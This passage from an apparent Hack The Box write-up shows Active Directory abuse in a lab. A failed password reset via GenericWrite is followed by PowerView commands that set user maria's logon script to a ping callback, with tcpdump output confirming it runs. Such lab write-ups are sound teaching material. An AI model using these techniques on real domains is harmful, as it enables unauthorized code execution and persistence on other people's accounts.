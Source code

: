 Some [references](https://burmat.gitbook.io/security/hacking/domain-exploitation#reset-domain-user-password) I found suggested that `GenericWrite` could work to change the user’s password, but this didn’t work here:

```
*Evil-WinRM* PS C:\programdata> $newpass = ConvertTo-SecureString '0xdf0xdf!' -AsPlainText -Force
*Evil-WinRM* PS C:\programdata> Set-DomainUserPassword -Identity maria -AccountPassword $newpass
Warning: [Set-DomainUserPassword] Error setting password for user 'maria' : Exception calling "SetPassword" with "1" argument(s): "Access is denied. (Exception from HRESULT: 0x80070005 (E_ACCESSDENIED))"

```

### Logon Script

[HackTricks](https://book.hacktricks.xyz/windows/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user) suggests I can use `GenericWrite` on a user to update their logon scripts. This script would run the next time the user logs in. That’s not typical on HTB/CTF machines, but it’s possibly something automated in the background.

I’ll write a script that will ping my host, remembering from the firewall enumeration earlier that ICMP is one of the few things allowed outbound, and set the script:

```
*Evil-WinRM* PS C:\programdata> echo "ping 10.10.14.6" > ping.ps1
*Evil-WinRM* PS C:\programdata> Set-DomainObject -Identity maria -SET @{scriptpath="C:\\programdata\\ping.ps1"}

```

Instantly there are packets at `tcpdump`:

```

oxdf@hacky$ sudo tcpdump -ni tun0 icmp                   
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode                 
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes                       
ec11:20:01.252961 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11053, length 40
11:20:01.253007 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11053, length 40  
11:20:02.260576 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11056, length 40
11:20:02.260615 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11056, length 40  
11:20:03.276421 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11059, length 40
11:20:03.276457 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11059, length 40  
11:20:04.279746 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11062, length 40
11:20:04.279779 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11062, length 40  
11:20:05.592129 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11067, length 40
11:20:05.592188 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11067, length 40  
11:20:06.604067 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11070, length 40
11:20:06.604103 IP 10.10.14.6 > 10.10.11.132: ICMP echo reply, id 2, seq 11070, length 40  
11:20:07.620145 IP 10.10.11.132 > 10.10.14.6: ICMP echo request, id 2, seq 11073, length 40
...[snip]..

```

I would have expected only five pings, but it goes on indefinitely until I change the script. It seems this logon script is being run repeatedly.
